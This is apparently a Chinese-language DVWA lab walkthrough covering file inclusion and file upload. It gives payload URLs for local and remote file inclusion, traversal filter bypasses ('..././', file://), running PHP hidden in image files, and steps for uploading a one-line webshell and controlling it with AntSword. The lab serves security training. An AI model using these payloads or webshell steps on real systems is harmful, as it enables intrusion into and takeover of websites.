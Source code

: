 本地文件包含 

```
http://localhost/php/fileInclusion/fileInclude.php?path=./name.php 
```

远程文件包含

```http
http://localhost/php/fileInclusion/fileInclude.php? path=http://10.10.10.212/php/fileInclusion/info.php
```

无视文件扩展名读取文件

直接读取图片的源代码 

```http
http://localhost/fileInclusion/fileInclusion.php? path=../DVWA\hackable\uploads/1.jpg
```

无条件解析PHP 代码

当读取到被包含文件的源码，如果遇到符合PHP 代码规范的内容，就会无条件执行,同时为图片木马提供了出路 

```http
http://10.10.10.129/fileInclusion/fileInclusion.php? path=../DVWA\hackable\uploads/1_yjh.jpg
```

### Medium

```http
http://127.0.0.1/dvwa/vulnerabilities/fi/?page=..././..././hackable/uploads/php.jpg
```

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/FileInclusion1.png)

### High

```http
http://127.0.0.1/dvwa/vulnerabilities/fi/?page=file://E:\wamp64\www\dvwa\hackable\uploads\php.jpg
```

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/FileInclusion2.png)

## Upload 文件上传

### LOW

1、首先将靶机安全等级设为low
![](https://img-blog.csdnimg.cn/20210201185140583.png?x-oss-process=image)
2、查看源码（这里的源码不是前端源码，而是后端）可知，可以上传任意文件
![](https://img-blog.csdnimg.cn/20210201185258969.png?x-oss-process=image)
3、上传一句话木马shell1.php（aaa为密码）

![](https://img-blog.csdnimg.cn/20210201185433732.png)
上传成功
![](https://img-blog.csdnimg.cn/20210201191631323.png)
通过上传成功的提示可以知道一句话木马的文件位置（红色路径），复制粘贴在浏览器url地址（去\#）后面，回车可得具体url(如下图)，复制url进蚁剑
![](https://img-blog.csdnimg.cn/20210201192041522.png)
4、用蚁剑去连接网站
![](https://img-blog.csdnimg.cn/20210201192246802.png?x-oss-process=image)
5、成功拿到网站后台内容
![](https://img-blog.csdnimg.cn/2021020119231556.png?x-oss-process=image)
